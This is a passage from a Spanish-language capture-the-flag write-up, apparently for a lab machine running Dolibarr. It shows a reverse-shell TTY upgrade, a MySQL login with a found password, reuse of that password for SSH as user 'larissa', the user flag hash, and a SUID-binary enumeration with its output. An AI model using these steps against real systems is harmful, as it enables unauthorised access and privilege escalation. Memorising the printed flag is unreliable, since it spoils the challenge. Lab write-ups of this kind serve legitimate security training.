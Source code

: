 ```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Una credenciales para conectarnos a `mysql`...

```shell
mysql -h localhost -u dolibarrowner -pserverfun2$2023!!
```

Metiendonos dentro no veremos nada, pero si probamos esta contarseña con el usuario `larissa` sera su contraseña, por lo que...

```
User = larissa
Password = serverfun2$2023!!
```

Nos conectamos por `ssh`...

```shell
ssh larissa@<IP>
```

Una vez dentro leeremos la flag en su `/home`...

> user.txt (flag1)

```
092416f8881878db54f1c3fb0eccb894
```

Si hacemos lo siguiente...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2491     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
      608     16 -rwsr-sr-x   1 root     root        14488 Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
    17633     28 -rwsr-xr-x   1 root     root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
    17628     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
    17627     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
    17388     16 -rwsr-xr-x   1 root     root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
     2368     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     5278    468 -rwsr-xr-x   1 root     root         477672 Jan  2 09:13 /usr/lib/openssh/ssh-keysign
    10039    388 -rwsr-xr--   1 root     dip          395144 Jul 23  2020 /usr/sbin/pppd
     2211     44 -rwsr-xr-x   1 root     root          44784 Feb  6 04:49 /usr/bin/newgrp
      230     56 -rwsr-xr-x   1 root     root          55528 Apr  9 08:34 /usr/bin/mount
     5609    164 -rwsr-xr-x   1 root     root         166056 Apr  4  2023 /usr/bin/sudo
```